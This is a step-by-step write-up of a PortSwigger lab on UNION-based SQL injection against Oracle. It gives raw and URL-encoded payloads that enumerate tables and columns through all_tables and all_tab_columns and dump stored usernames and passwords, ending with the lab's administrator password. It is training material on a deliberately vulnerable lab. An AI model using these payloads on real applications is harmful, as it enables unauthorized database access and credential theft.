





# SQL injection attack, listing the database contents on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___

**NOTE:** information schema on Oracle
`SELECT * FROM all_tables` => for listing all tables
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'` => for listing all columns

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=gifts` => send to repeater



step 2

`SELECT * FROM all_tables`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM all_tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--`



Table => `USERS_CACPFH`


step 3

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_CACPFH'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--`



Username => `USERNAME_WJPEXO`  Password => `PASSWORD_FJKSKF`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT USERNAME_WJPEXO,PASSWORD_FJKSKF FROM USERS_CACPFH--
```

convert to URL Encoded
```sql
'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--
```

`/filter?category=Gifts'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--`



step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>611i0vz9if47ecz8bsut</td>
</tr>
```

